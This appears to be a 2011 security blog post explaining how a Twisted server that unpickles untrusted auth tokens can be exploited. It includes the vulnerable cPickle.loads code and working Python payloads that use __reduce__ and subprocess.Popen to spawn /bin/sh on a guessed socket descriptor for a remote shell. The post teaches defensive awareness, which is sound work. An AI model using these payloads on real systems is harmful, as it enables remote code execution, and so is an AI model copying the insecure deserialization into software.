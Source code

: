 ```yaml
---
author: nelhage
author_email: nelhage@mit.edu
author_login: nelhage
author_url: http://nelhage.com
date: 2011-03-20T18:38:13Z
published: true
status: publish
tags:
- security
- python
- shell
- twisted
- pickle
title: Exploiting misuse of Python's "pickle"
url: /2011/03/20/exploiting-pickle/
wordpress_id: 469
wordpress_url: http://blog.nelhage.com/?p=469
---
```


If you program in Python, you're probably familiar with the
[`pickle`][pickle] serialization library, which provides for efficient
binary serialization and loading of Python datatypes. *Hopefully*,
you're also familiar with the warning printed prominently near the
start of `pickle`'s documentation:

> *Warning:* The pickle module is not intended to be secure against
> erroneous or maliciously constructed data. Never unpickle data
> received from an untrusted or unauthenticated source.

Recently, however, I stumbled upon a project that was accepting and
unpacking untrusted pickles over the network, and a poll of some
friends revealed that few of them were aware of just how easy it is to
exploit a service that does this. As such, this blog post will
describe exactly how trivial it is to exploit such a service, using a
simplified version of the code I recently encountered as an
example. Nothing in here is novel, but it's interesting if you haven't
seen it.

The Target
----------

The vulnerable code was a [Twisted][twisted] server that listened over
SSL. The code looked roughly like the following:

<pre lang="python">
class VulnerableProtocol(protocol.Protocol):
  def dataReceived(self, data):

     # Code to actually parse incoming data according to an
     #  internal state machine
     # If we just finished receiving headers, call verifyAuth() to
       check authentication

  def verifyAuth(self, headers):
    try:
      token = cPickle.loads(base64.b64decode(headers['AuthToken']))
      if not check_hmac(token['signature'], token['data'], getSecretKey()):
        raise AuthenticationFailed
      self.secure_data = token['data']
    except:
      raise AuthenticationFailed
</pre>

So, if we just send a request that looks something like:

    AuthToken: <pickle here>

The server will happily unpickle it.

Executing Code
--------------

So, what can we do with that? Well, `pickle` is supposed to allow us
to represent arbitrary objects. An obvious target is Python's
[`subprocess.Popen`][subprocess] objects -- if we can trick the target
into instantiating one of those, they'll be executing arbitrary
commands for us! To generate such a pickle, however, we can't just
create a `Popen` object and pickle it; For various mostly-obvious
reasons, that won't work. We could read up on the "pickle" format and
construct a stream by hand, but it turns out there is no need to.

`pickle` allows arbitrary objects to declare how they should be
pickled by defining a [`__reduce__`][reduce] method, which should
return either a string or a tuple describing how to reconstruct this
object on unpacking. In the simplest form, that tuple should just
contain

 - A callable (which must be either a class, or satisfy some other,
   odder, constraints), and
 - A tuple of arguments to call that callable on.

`pickle` will pickle each of these pieces separately, and then on
unpickling, will call the callable on the provided arguments to
construct the new object.

And so, we can construct a pickle that, when un-pickled, will execute
`/bin/sh`, as follows:

<pre lang="python">
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/sh',),))

print base64.b64encode(cPickle.dumps(RunBinSh()))
</pre>

Getting a Remote Shell
----------------------

At this point, we've basically won. We can run arbitrary shell
commands on the target, and there are any number of ways we could
bootstrap from here up to an interactive shell and whatever else we
might want.

For completeness, I'll explain what I did, since it's a moderately
cute trick. `subprocess.Popen` lets us select which file descriptors
to attach to stdin, stdout, and stderr for the new process by passing
integers for the `stdin` and similarly-named arguments, so we can open
our `/bin/sh` on arbitrarily-numbered fd's.

However, as mentioned above, the target server uses Twisted, and it
serves all requests in the same thread, using an asynchronous
event-driven model. This means we can't necessarily predict which file
descriptor on the server will correspond to our socket, since it
depends on how many other clients are connected.

It also means, however, that every time we connect to the server,
we'll open a new socket inside the same server process. So, let's
guess that the server has fewer than, say, 20 concurrent connections
at the moment. If we connect to the server's socket 20 times, that
will open 20 new file descriptors in the server. Since they'll get
assigned sequentially, one of them will almost certainly be fd
20. Then, we can generate a pickle like so, and send it over:

<pre lang="python">
import cPickle
import subprocess
import base64

class Exploit(object):
  def __reduce__(self):
    fd = 20
    return (subprocess.Popen,
            (('/bin/sh',), # args
             0,            # bufsize
             None,         # executable
             fd, fd, fd    # std{in,out,err}
             ))

print base64.b64encode(cPickle.dumps(Exploit()))
</pre>

We'll open a `/bin/sh` on fd 20, which should be one of our 20
connections, and if all goes well, we'll see a prompt printed to one
of those. We'll send some junk on that fd until we manage to get the
original server to error out and close the connection, and we'll be
left talking to `/bin/sh` over a socket. Game over.

In Conclusion
-------------

Again, nothing here should be novel, nor would I expect any of these
pieces to take a competent hacker more than few minutes to figure out,
given the problem. But if this blog post teaches someone not to use
`pickle` on untrusted data, then it will be worth it.

[pickle]: http://docs.python.org/library/pickle.html
[twisted]: http://twistedmatrix.com/
[subprocess]: http://docs.python.org/library/subprocess.html
[pep-307]: http://www.python.org/dev/peps/pep-0307/
[reduce]: http://docs.python.org/library/pickle.html#object.__reduce__
